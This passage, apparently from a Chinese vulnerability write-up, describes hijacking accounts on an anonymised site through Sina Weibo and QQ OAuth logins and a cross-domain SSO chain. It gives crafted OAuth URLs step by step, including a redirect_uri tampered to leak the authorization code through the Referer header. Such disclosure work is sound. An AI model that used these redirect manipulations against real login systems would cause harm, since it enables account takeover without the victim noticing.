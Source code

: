 黑客成功在自己浏览器中登录该新浪微博绑定的账户
![8.png](C:\Users\todaro\Desktop\2018.1.20\8.png)
在AAA.com登录，也意味着该账号对应绑定的邮箱也登录了BBB.com，因为他们设置了跨域账户互通

但是默认情况下只有用户通过直接post请求登录AAA.com才会触发登陆BBB.com

经过研究发现

只要请求如下链接
```
http://account.AAA.com/?p=login_success&error=0&message=&next=http%3A%2F%2Fi.AAA.com&secure=1&from=login&nerror=
```
之后会自动触发连锁请求
```
https://passport.BBB.com/ssoLogin?st=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOiI4MDkyMTYxMiIsImV4cCI6MTUxNTgzNDA5Mn0.saw4LnkC7LR7kHdB3yu64vJ_t_XpDp02QXbVfvhc1TI
```
当然这个st无从猜解

有了这个请求之后，passport.BBB.com也就登录成功了

所以黑客授权劫持后，试着请求一下，最后成功登录其BBB.com的账户
![9.png](C:\Users\todaro\Desktop\2018.1.20\9.png)
黑客访问
`https://passport.BBB.com`
成功
![10.png](C:\Users\todaro\Desktop\2018.1.20\10.png)
至此完成了对新浪授权登录账户的劫持，新浪用户只需要第一次授权要点确定，后面直接授权，无需任何操作，对用户来说是完全无感的。

#### 【2】新浪微博劫持

用户将自己的QQ与AAA.com的账户进行绑定

QQ授权登录的原始链接为
```
https://graph.qq.com/oauth2.0/show?which=Login&display=pc&response_type=code&client_id=XXXXXX&redirect_uri=http://account.AAA.com/qqlogin.php&state=a84bce6b18ea21337cf832d8da3eff08&scope=get_user_info
```

这里每次的`state`参数同上面的`oauth_token`一样都是变化的，所以黑客需要先在自己的浏览器访问获取改值
![11.jpg](C:\Users\todaro\Desktop\2018.1.20\11.jpg)
```
https://graph.qq.com/oauth2.0/show?which=Login&display=pc&response_type=code&client_id=XXXXXX&redirect_uri=http://account.AAA.com/qqlogin.php&state=7fd233c9f34a007745e2773755121b53&scope=get_user_info
```

将链接修改为如下，并让用户访问
```
https://graph.qq.com/oauth2.0/show?which=Login&display=pc&response_type=code&client_id=XXXXXX&redirect_uri=http://bbs.AAA.com/thread-19478133-14-1.html&state=7fd233c9f34a007745e2773755121b53&scope=get_user_info
```
获得
![12.png](C:\Users\todaro\Desktop\2018.1.20\12.png)
Referer:
```
http://bbs.AAA.com/thread-19478133-14-1.html?code=C35B9259FB0E81135F126AFA50FC967B&state=7fd233c9f34a007745e2773755121b53
```
